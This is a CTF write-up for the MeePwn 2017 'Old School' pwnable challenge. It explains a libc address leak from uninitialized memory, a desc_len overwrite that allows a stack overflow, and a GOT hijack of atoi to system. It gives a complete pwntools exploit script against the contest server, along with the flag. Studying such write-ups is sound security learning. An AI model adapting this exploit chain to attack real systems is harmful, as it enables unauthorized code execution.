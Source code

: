 ```yaml
---
title: MeePwn CTF 2017 -- Old School
comments: true
permalink: "/:title/"
tags:
- CTF
- Python
- Pwnable
- MeePwn
- BOF
categories:
- write-ups
date: '2017-07-16 09:56:00 +0000'
---
```


**Category:** Pwnable

64 bit ELF, Partial RELRO, NX enabled, No PIE, has canary.  
  
<!-- more -->  

```
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

As we can see we can add, edit, delete or show a book. Books are stored in a pointer array `books`, each pointer point to a `book` data structure:  

```c
struct book{
    char book_name[32];
    char author[32];
    int desc_len;
    char desc[256];
}
```

The `books` array and each `book` pointer are all placed on the stack memory.  

The program did not initialize the `book` variable before setting its data. Since there's a libc address ( `<atoi + 0x10>` ) in it, we can leak the libc address by entering 4 characters in the description:  
```
Choice:4
------------ 1 ------------
Name: 11111111
Author: 11111111
Description: AAAA�N���
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

After done some fuzzing, I also found that if we input 32 characters in `book_name` and `author` ( no newline ) , the `desc_len` will be overwritten with our input, and become a large integer. Since when we edit the book description, the length to read is depend on the `desc_len` data, this make us able to overflow the `book->description` buffer and overwrite the pointers in the `books` array !  

So here's how I exploit the service:
1. First leak the libc address
2. Overwrite the `desc_len` data
3. Overflow the `books[0]->desc` buffer and overwrite `books[0]`, let it point to the GOT section
4. Edit `books[0]` and do the GOT hijacking ( hijack atoi to system )


The exploit at the local side worked, but for some unknown reason, the service at the remote side has a different behavior: during the last step of the exploitation, it won't let us input the `author` data, thus failing our exploit. Although we can still pwn it by not entering the author's name, it still took me a while to debug the whole process.  

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.244.42"
PORT = 31340
ELF_PATH = "./oldschool_noalarm"
LIBC_PATH = "./libc6_2.23-0ubuntu7_amd64.so"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = ELF(LIBC_PATH)

def add_book(book, author, dlen, desc):
    r.sendlineafter("Choice:", "1")
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendlineafter("tion:", str(dlen))
    r.sendafter("tion:", desc)

def edit_book(idx, book, author, desc):
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", str(idx))
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)

def del_book(idx):
    r.sendlineafter("Choice:", "3")
    r.sendlineafter("?", str(idx))

def show_book():
    r.sendlineafter("Choice:", "4")


if __name__ == "__main__":

    r = remote(HOST, PORT)
   
    book, author = "1"*8+"\n", "a"*8+"\n"  
    add_book(book, author, 100, "AAAA\n")
    show_book()
    
    # leak libc
    r.recvuntil("AAAA")
    libc.address = u64(r.recv(6).ljust(8, "\x00")) - libc.symbols['atoi'] - 0x10
    log.success("libc_base: "+hex(libc.address))

    del_book(1)
    book, author = "1"*32, "a"*32  
    # make book[0]->size = very big
    # later when we edit book[0]->desc, it will overwrite the pointer of book[0]
    add_book(book, author, 100, "AAAA\n")
   
    # edit book[1]->desc, overwrite book[0]
    # change book[0]->name to got section
    # later we can edit book[0] & do GOT hijacking
    payload = "i"*503 + "\x00" + p32(1) + p64(0x602028) + "\n"
    edit_book(1, "1\n", "1\n", payload)

    # overwrite atoi to system
    payload = "i"*4 + p64(libc.symbols['system']) + "\n"
    book, author, desc = p64(0x400706)[:6:] , p64(0x4006f6)[:6:], payload
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", "1")
    r.sendafter("name:", book)
    # don't know why author won't read input.....
    #r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)
 
    r.sendline("sh")
    r.interactive()

```

flag: `MeePwnCTF{0ld_sch00ld_C4n4ry_1s_0n_th3_st4ck}`
